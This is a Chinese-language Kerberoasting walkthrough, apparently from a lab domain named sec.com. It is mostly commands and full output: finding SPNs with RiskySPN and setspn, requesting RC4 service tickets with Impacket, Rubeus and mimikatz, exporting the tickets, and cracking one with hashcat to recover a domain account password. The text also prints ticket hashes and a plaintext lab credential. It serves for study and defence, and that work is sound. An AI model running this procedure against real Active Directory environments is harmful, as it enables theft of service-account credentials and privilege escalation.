



# 一、攻击过程
1、首先需要拥有一个域用户权限，使用该用户请求一个TGT

2、使用TGT请求指定SPN的ST（注册在用户账户下的SPN），且指定Kerberos加密类型为RC4_HMAC_MD5

3、只要TGT有效，KDC就会返回SPN注册者的账户Hash加密而成的ST返回给攻击者

4、离线破解该类型的ST

# 二、SPN的发现
目的：发现域内所有注册在域用户下的SPN

## 1、RiskySPN
```plain
PS C:\Users\administrator\Desktop> Import-Module .\Find-PotentiallyCrackableAccounts.ps1
PS C:\Users\administrator\Desktop> Find-PotentiallyCrackableAccounts -FullData

UserName        : test1
DomainName      :
IsSensitive     : False
EncType         : RC4-HMAC
Description     :
IsEnabled       : True
IsPwdExpires    : True
PwdAge          : 7
CrackWindow     : 34
SensitiveGroups :
MemberOf        :
DelegationType  : False
TargetServices  : None
NumofServers    : 1
RunsUnder       : {@{Service=MySQL; Server=dc1.sec.com; IsAccessible=Yes}}
AssociatedSPNs  : {MySQL/dc1.sec.com:3306/MySQL}

PS C:\Users\administrator\Desktop>
```

## 2、setspn.exe
```plain
PS C:\Users\administrator\Desktop> setspn.exe -Q */*
正在检查域 DC=sec,DC=com
CN=DC1,OU=Domain Controllers,DC=sec,DC=com
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC1.sec.com
        ldap/DC1.sec.com/ForestDnsZones.sec.com
        ldap/DC1.sec.com/DomainDnsZones.sec.com
        DNS/DC1.sec.com
        GC/DC1.sec.com/sec.com
        RestrictedKrbHost/DC1.sec.com
        RestrictedKrbHost/DC1
        RPC/974c328e-0992-452a-8033-2c1a5b6fc971._msdcs.sec.com
        HOST/DC1/SEC
        HOST/DC1.sec.com/SEC
        HOST/DC1
        HOST/DC1.sec.com
        HOST/DC1.sec.com/sec.com
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/974c328e-0992-452a-8033-2c1a5b6fc971/sec.com
        ldap/DC1/SEC
        ldap/974c328e-0992-452a-8033-2c1a5b6fc971._msdcs.sec.com
        ldap/DC1.sec.com/SEC
        ldap/DC1
        ldap/DC1.sec.com
        ldap/DC1.sec.com/sec.com
CN=krbtgt,CN=Users,DC=sec,DC=com
        kadmin/changepw
CN=test1,CN=Users,DC=sec,DC=com
        MySQL/dc1.sec.com:3306/MySQL
CN=machine2,CN=Computers,DC=sec,DC=com
        RestrictedKrbHost/TEST
        RestrictedKrbHost/machine2.sec.com
        RestrictedKrbHost/machine2
        HOST/machine2.sec.com
        HOST/machine2
CN=WIN2022-APP-1,CN=Computers,DC=sec,DC=com
        TERMSRV/WIN2022-APP-1
        TERMSRV/Win2022-APP-1.sec.com
        RestrictedKrbHost/WIN2022-APP-1
        HOST/WIN2022-APP-1
        RestrictedKrbHost/Win2022-APP-1.sec.com
        HOST/Win2022-APP-1.sec.com

发现存在 SPN!
PS C:\Users\administrator\Desktop>
```

# 三、请求服务票据
## 1、Impacket-GetUserSPNs请求
```plain
(py310) C:\root\tmp> impacket-GetUserSPNs -request -dc-ip 192.168.30.2 sec.com/test2:"Az123456@"
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName          Name   MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  -----  --------  --------------------------  --------------------------  ----------
MySQL/dc1.sec.com:3306/MySQL  test1            2024-08-16 16:11:24.350370  2024-08-24 14:58:01.722184

[-] CCache file is not found. Skipping...
$krb5tgs$23$*test1$SEC.COM$sec.com/test1*$19ed9e5a8977ff7c6f65c84fad1fc8cb$2a8d8ae75219c6851aa965741ba2fe57124347c0fba30e79d1638a9d6c7c840b52ad63583be67e35cfb884b7036ad7d89f9201bc5e08557f856de6752af73520b06ae8067ef435b79acf12765bc39d95bbed2bed256cc1f7032f25e3688850dc2356db5dbe06990aa71609958a0ec69a3e4506e83a0393d8d7cbb0a79047f299cd24db2c861041248ca0234eb9ca6b1b5e42d905a1b6709d9654ff5f11eda95830661d18504e15adf6ed5fb08288e8a52f261915bdc12491253b96f3369f34e211b7afb02a075b1c7bbbc324d33fe49ff215a5d05214d3cc00389a1acf81b5aef698e0d1b42f981d9958f216aaa889120bcf7c9d05aabecf3960a9586a9a266339c05c9a801e9eba152d1c52083e9e1c19137b738e7f09e679cae640f9af98601f4823bae45bd5e3f2eadc8bd6890118fc215212b9e4a9c99b1c0d438a55309af0c992528ed1a06ee0fe473baddb6409c0cba1beb27a61b22da5da99aef30f96c42001b94343ebe3a38654e8b2fdab28946c3fd9add24e671c727034215ef8978f7a57bb1f33a4400a23a40df290efafe8a3d0816af0285c6a981e0818dbdac7d63ab3f480ac24d6cb87777927ec4d410fedbd7c8ebff28ceb4b6dd29b67bb12a1d38f7d14e86cee9c527ce4ccc7b00e4a11f2341afb906bcb0642ded67efc9df8fbcf71284cf03400a39483986a898317cfcd1fc9483abda9241a9222d3e3398ea068675071a230705b7eb28dc8d7e5a1c02c7c8730b9396b544516eb34622a3ee7765b45d795bc47b482a6cc6b58c2479901a01c75946a30eea70f39bd87ff9170282663e70348b6b05fa6314f57a8fcea2cab0dcab44ccddea226e83d41510bf31e6802f7762455bdd4b3abaad03cdbf1160882d8359be692738e5555ac7b156e2fdb6aced57787cf661f5f0c0437c56feb1e026b207331c2dd5ae5ed107aa4825c13ef9b9f1a628e9ef4dd9bea97aeb47279d1744e475355bc31cd526c2a912ba06f4f002ebc83b56e263c85197d39d817cff00efd76a96a34d7932e12bcfa65a5b4e8642208889d622e8370e4a9d49f7f35c7001622bdd6ba1c26a4916fcfd9927950198e7b3d134ff2e1e0b0a6a4c7476146661f10d82476c235a3787adab1ada9160517b5409e3199c0766120275f3554e13cae66a45bb7c11489b58b7bcf121399a4cf8ce3eb1b9eef5d9f4e896ecf8d3067eaa521d9d3e9dabcf39ea404c3464f14390aa9e7bc6ed757a58295b30bc3a05c610d4ef24e67a9240569ef4d770badc0559f853bf9be411d0bfa1f1ce150204d0acdb6184856ed8c4c8b15deabb3223fb9197bc2604fb06ee315840c8cf43a421368790aa391978aef35adadf656048e2fcc810e9ef5a3158eb81e149af5a685d35fb1a57452b329658d2ec692ee9f

```

## 2、Rubeus请求
```plain
PS C:\Users\test1\Desktop> .\Rubeus.exe kerberoast /format:john /outputfile:hash.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : sec.com
[*] Searching path 'LDAP://DC1.sec.com/DC=sec,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : test1
[*] DistinguishedName      : CN=test1,CN=Users,DC=sec,DC=com
[*] ServicePrincipalName   : MySQL/dc1.sec.com:3306/MySQL
[*] PwdLastSet             : 2024/8/17 4:11:24
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*test1$sec.com$MySQL/dc1.sec.com:3306/MySQL@sec.com*$DCDD40A9685A026
                             A887B13DEA3BA2D8F$860420C3C399F676FE256351BFF5A254B6504A424D585FD63AB9C2580C5AF6
                             4F79ADE259A61070E46C958BAF364E1FF69EBA0DEDAC2B6237E00B1D33AAA8EC291F69FF36EEC28F
                             BF07A955FE413E42BBD33C80A4A08281DE815F88DE3F50F419AF7AD2B49CCC2D9EB106F996A74640
                             F8434C985CE3B45182B9522E40486B226B694D395CD8CCF1B927221F6CF2535E339313DA0FFB1ECC
                             94A1AA3E836B0DDE3B8088D421CC920CFFF37BB60E2C6B2E760326F1446C1BDFC060234D992CDCB6
                             F2593985703457F9D364E67C3BB7B1F78395BD64079EBEEA509BC9A3383B2B11D80F16036A558F93
                             D726409F7010F5E3634411DC9C448AA8AC995B90EE5963C3CACB75B9AE6AD43D153A569EADEC7D3C
                             1D3D9C58D5D160C06ECF32A308D491FCEBD2C2C9944E397B2C14CA6C4A31DFFFFF482E8C8D753A6C
                             DB4B7C364FEF27E18D00D85357B65ECC77F6E1CCC24A02CAE704EF1C072D7DA3AE9F6EB7FFD4F0C6
                             1D7B5100A67B304F662C24E01F410E846F3271C69436F04A1ED9803A56875E3CD03C1E546C5D3CA3
                             44CA148405DE2C488EE904DBA3E1CD633C18BF961338AE748D6FAA33559D1ECC455E16FF9FBE4E12
                             898CDA1D6D61A90C251521AD246D54E2A8732D9EB84433FBBAE28197D07FD83076E375DC33E04518
                             984B1F0DD8BC43F1D66999742EA21B401B4113D871251E2E458EF3CC9F09AEB348AF1AF6B342E65F
                             A9A51DF8D041B3216A04B95E4F7D0130BF1ADCAF840E0FE6FA922E974DD7287811BBEE27D999E165
                             EAA49F29C19C40E4C450EEF06044663DEBFC501DB9E7C49AA80DC9C6D32381D52F61F353E6327F24
                             F386D4544830292F0CA09857286DEBAD30EF68D78016F1BE8573128BFE56ACEA25D08086252B07B8
                             85806833C036992D744A2A16DD00E94374D74CC5AD96AC8DBD667ABD34448A5729B1E82FA3CDEBE5
                             EADC45D85428B4DD4ED26C37DF7C63B95A5A1FE46FBB60AF4C63C52672D16A959D09B0E6FC4EB651
                             F5125A5A6ED5FFCDABE4C4B704B31B93FFC8B7B9E2438FDDE8D1EC521B0B1DA23F07B3A56AEFE705
                             DF6C4412BC499D6190B0871631DE8D47D15AED06E78DEBA72E9C7A23270486E6C0936E7B5F5FFF21
                             8E6A3735AC4C4711DE27510D90E5EC5F1DF1DFEC5A13CAC5C33CAB1E1461CF2E9490960015286DA6
                             EFC3BAD7613D9234D54326EC466B01795F22D831AFF134AF5EF35D659A213790182998D471F451C7
                             FA053F4FB09AEDE5A3C382C8DBD085F85924EBD2B2273A35FF0AC0D4D106E208E831BCCD3967E0B0
                             A98ECE9571F60B95B9F73C48871EA535139DAC33CD1C5A84824D313C2D4B2D0029CE1D3C97034BAC
                             0F2F2D323D76B261FE18E2E90FEADAE83F69F4ACD2CFC18B7C24414DFCCDAA90F95D4934BDBDAD6C
                             70DBF94B6AEC6ED8579C67F92927467AF88F78B5F686AD100353770678F7E681B693FFA5272117CB
                             9A589E7BE3D59D0E5FF2DC2E3A28D285EB834C07B62F1E25E25A81B3B4EE7D147E1024ED55D617B0
                             2795EFC2BD28C497F9BC181B90EBA42287F32866B8B2939318B5C45869EE7FEC4F00734C6822E355

PS C:\Users\test1\Desktop>
```

## 3、mimikatz请求
请求后会把票据放入内存里

```plain
PS C:\Users\administrator\Desktop\mimikatz> .\mimikatz.exe "kerberos::ask /target:MySQL/dc1.sec.com:3306/MySQL" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # kerberos::ask /target:MySQL/dc1.sec.com:3306/MySQL
Asking for: MySQL/dc1.sec.com:3306/MySQL
   * Ticket Encryption Type & kvno not representative at screen

           Start/End/MaxRenew: 2024/8/25 2:24:26 ; 2024/8/25 11:50:47 ; 2024/9/1 1:50:47
           Service Name (02) : MySQL ; dc1.sec.com:3306 ; MySQL ; @ SEC.COM
           Target Name  (02) : MySQL ; dc1.sec.com:3306 ; MySQL ; @ SEC.COM
           Client Name  (01) : Administrator ; @ SEC.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             c542f18a33ffefa8906e51892bfdaec82f3cc7b4ebeab2352ba236dfae1c1af2
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 0        [...]

mimikatz(commandline) # exit
Bye!
PS C:\Users\administrator\Desktop\mimikatz>
```

# 四、导出服务票据
klist查看内存中的票据，然后用mimikatz转换成文件

```plain
PS C:\Users\administrator\Desktop\mimikatz> .\mimikatz.exe "kerberos::list /export" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # kerberos::list /export
[00000002] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 2024/8/25 2:24:26 ; 2024/8/25 11:50:47 ; 2024/9/1 1:50:47
   Server Name       : MySQL/dc1.sec.com:3306/MySQL @ SEC.COM
   Client Name       : administrator @ SEC.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
   * Saved to file     : 2-40a10000-administrator@MySQL~dc1.sec.com~3306~MySQL-SEC.COM.kirbi

mimikatz(commandline) # exit
Bye!
PS C:\Users\administrator\Desktop\mimikatz>
```

在使用empire转换票据

```plain
PS C:\Users\administrator\Desktop\mimikatz> Invoke-Kerberoast -outputFormat hashcat

TicketByteHexStream  :
Hash                 : $krb5tgs$23$*test1$sec.com$MySQL/dc1.sec.com:3306/MySQL*$A3FBF68A3F526C81F73B22E0ABA1B43D$29843B
                       9B37B67BFEB77C77C6255CC431EB03178DB2F8862660590DAE70723CC6DC84EDFB451E1DCF7FBEEBBB857AD077BEF0FE
                       3EC784F16C755EADA6A77FE8659B6A7DCF431D5E668484AACE941165E7757702D3A922FF75258B429D151C52D652959F
                       C3823795E7A898899FEDDBAE7426C12D61DCE0D1047ED81E4C27705F65FAFE559B50B2E078595548BCE217C9BB3A7267
                       1038E558797874F14CCBCF2D09FEA69E48D3F48AC573A9A0DCCAE892141FAFC5798856999E7AE8852F6593CE6949A0CF
                       57821A19D87DA7AC858451065008C4C950C36B1DFB4EF8184986449B5928CA3872728275E2073A1D75D1AF3FA2433905
                       9134B2A28C10674803AB704136A5F1E198A685D0B679A49EBFBC46E02102843B0771141391A85A4463A4C627344339A0
                       F01ED4AE3853683A073625BED93A4738B269E29E8BF603E5D33790A7CDAF978A5F19B8065934D5388B06FB092DF012E8
                       F557F75BB155A50DB8126CA481D82F4E9258269FF868964BDB7C0A4464D4B9F832692EAED864230EA789F9C0707D9052
                       B89D0E0D155B8563FD75CE15E2FFE08AF7497B34F784A988372003598144D995D6BFCBB11E06D84BB18C8D2FDD1EA59B
                       D6638C44239764B662EFBE0BD2E0D05D8E53C67BBCF2770ECAB83EF3FC6A81D9B60D332716F2164558EC82DDCB0021BF
                       BF618A3F692C9C6F954378B8E3E8BB1E34F4E829F5236736EE8778765C44FB722B3F7009EA2BC9CFD97BFB30D312EE51
                       6F68CDAD4CDC8CD5C45C2F74BDCB280D83B33D0B642329F993A2CAE6AD8DD6F20BE06AF7652151A23E1EA9B6754065AC
                       3D8E8D5C9B7C58CBD4A05602710E68415916AD290406ADE19BC3DFBFB514F53BF508CB3B59CE32D261EB92434D5D28EB
                       C0884AA120810A5D31C680EAFBE39C589FD01D712AF0C05A3A9E251EE94099777379C6E8CEC0A98E9787F2115150A776
                       F7835A649F2012146AB15BFB25B598C0E3294BF20DF6D12633815A155987BEEF4D0186A066BFAA8DCFE875DDFF38B22D
                       E18F7A8A6BE37C2B036BC93318F6F44F396B62C3F117268A787F9441745AC6354E0BFFE34CD9530702FEE104F883770E
                       A2A820329EC4D9C2E63D42EF389D6D6604834143CAC1E6D7896405B9263E6602A8365550282752736FEF2A6CF5B79BBC
                       4312297018A8D998845A636B3B81DC3E69793C04DAE194A5285DAFA864E5DD05314B442E6742D3B1A2BE202E719A6FAE
                       2DF2F5B50802D586404C06105EF3FF37E55980D371C439808D2EFED09CEE4060CE478B928BDFA028A99DE4C0A8C110F1
                       69F8B354964F38B811208990993E20982B463C2DE52CBBB6221014F8CA2E4CA4006E1B2CAEE3B3A09968B451C3522095
                       6A4E527ADBAE7978A4E1E5060A3A5063A1CD0164C137257229E0233E6CD6DBF76532C5238E1BE4061BFA0CE8E19C5FE1
                       DF471EADC2D11B7B38BFDE34144A872D5DDF23120F50C32AE3758346F6F1F471D040F38BCCB1DBD52AAECC97799011DB
                       CF919608ADD8F6338F52C2DF1F700A9D6D9E116CEFDEE6F75961D3CF7F21A3F5C9BD96D9EBA722AF77E8340F8494008C
                       BB17E6704A52762012385F09DA51396B0FA2F670C343497391C365C031D37A38D982D9DAF283E783B47E24B478F21BE4
                       6E16B1E6D6CF28CB63E7D798B809C77CBA1A532FB1BED0BB9108CDD6C87F067265BE768F35D06C79F28C5C36D4FD2E33
                       84BC2C21F1815BEFF6D0B0465AC0B2553CFC64C1B305CB953551261AF48D5E61DF768CA54E25E0AB218BABF027B6601F
                       611E3CA4
SamAccountName       : test1
DistinguishedName    : CN=test1,CN=Users,DC=sec,DC=com
ServicePrincipalName : MySQL/dc1.sec.com:3306/MySQL

```

# 五、使用hashcat破解
```plain
C:\root\tmp> hashcat -m 13100 hash1.txt pass.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-14900KF, 2899/5863 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: pass.txt
* Passwords.: 1
* Bytes.....: 10
* Keyspace..: 1

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$krb5tgs$23$*test1$sec.com$MySQL/dc1.sec.com:3306/MySQL*$a3fbf68a3f526c81f73b22e0aba1b43d$29843b9b37b67bfeb77c77c6255cc431eb03178db2f8862660590dae70723cc6dc84edfb451e1dcf7fbeebbb857ad077bef0fe3ec784f16c755eada6a77fe8659b6a7dcf431d5e668484aace941165e7757702d3a922ff75258b429d151c52d652959fc3823795e7a898899feddbae7426c12d61dce0d1047ed81e4c27705f65fafe559b50b2e078595548bce217c9bb3a72671038e558797874f14ccbcf2d09fea69e48d3f48ac573a9a0dccae892141fafc5798856999e7ae8852f6593ce6949a0cf57821a19d87da7ac858451065008c4c950c36b1dfb4ef8184986449b5928ca3872728275e2073a1d75d1af3fa24339059134b2a28c10674803ab704136a5f1e198a685d0b679a49ebfbc46e02102843b0771141391a85a4463a4c627344339a0f01ed4ae3853683a073625bed93a4738b269e29e8bf603e5d33790a7cdaf978a5f19b8065934d5388b06fb092df012e8f557f75bb155a50db8126ca481d82f4e9258269ff868964bdb7c0a4464d4b9f832692eaed864230ea789f9c0707d9052b89d0e0d155b8563fd75ce15e2ffe08af7497b34f784a988372003598144d995d6bfcbb11e06d84bb18c8d2fdd1ea59bd6638c44239764b662efbe0bd2e0d05d8e53c67bbcf2770ecab83ef3fc6a81d9b60d332716f2164558ec82ddcb0021bfbf618a3f692c9c6f954378b8e3e8bb1e34f4e829f5236736ee8778765c44fb722b3f7009ea2bc9cfd97bfb30d312ee516f68cdad4cdc8cd5c45c2f74bdcb280d83b33d0b642329f993a2cae6ad8dd6f20be06af7652151a23e1ea9b6754065ac3d8e8d5c9b7c58cbd4a05602710e68415916ad290406ade19bc3dfbfb514f53bf508cb3b59ce32d261eb92434d5d28ebc0884aa120810a5d31c680eafbe39c589fd01d712af0c05a3a9e251ee94099777379c6e8cec0a98e9787f2115150a776f7835a649f2012146ab15bfb25b598c0e3294bf20df6d12633815a155987beef4d0186a066bfaa8dcfe875ddff38b22de18f7a8a6be37c2b036bc93318f6f44f396b62c3f117268a787f9441745ac6354e0bffe34cd9530702fee104f883770ea2a820329ec4d9c2e63d42ef389d6d6604834143cac1e6d7896405b9263e6602a8365550282752736fef2a6cf5b79bbc4312297018a8d998845a636b3b81dc3e69793c04dae194a5285dafa864e5dd05314b442e6742d3b1a2be202e719a6fae2df2f5b50802d586404c06105ef3ff37e55980d371c439808d2efed09cee4060ce478b928bdfa028a99de4c0a8c110f169f8b354964f38b811208990993e20982b463c2de52cbbb6221014f8ca2e4ca4006e1b2caee3b3a09968b451c35220956a4e527adbae7978a4e1e5060a3a5063a1cd0164c137257229e0233e6cd6dbf76532c5238e1be4061bfa0ce8e19c5fe1df471eadc2d11b7b38bfde34144a872d5ddf23120f50c32ae3758346f6f1f471d040f38bccb1dbd52aaecc97799011dbcf919608add8f6338f52c2df1f700a9d6d9e116cefdee6f75961d3cf7f21a3f5c9bd96d9eba722af77e8340f8494008cbb17e6704a52762012385f09da51396b0fa2f670c343497391c365c031d37a38d982d9daf283e783b47e24b478f21be46e16b1e6d6cf28cb63e7d798b809c77cba1a532fb1bed0bb9108cdd6c87f067265be768f35d06c79f28c5c36d4fd2e3384bc2c21f1815beff6d0b0465ac0b2553cfc64c1b305cb953551261af48d5e61df768ca54e25e0ab218babf027b6601f611e3ca4:Az123456@

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*test1$sec.com$MySQL/dc1.sec.com:3306/M...1e3ca4
Time.Started.....: Sat Aug 24 14:49:21 2024, (0 secs)
Time.Estimated...: Sat Aug 24 14:49:21 2024, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      983 H/s (0.01ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
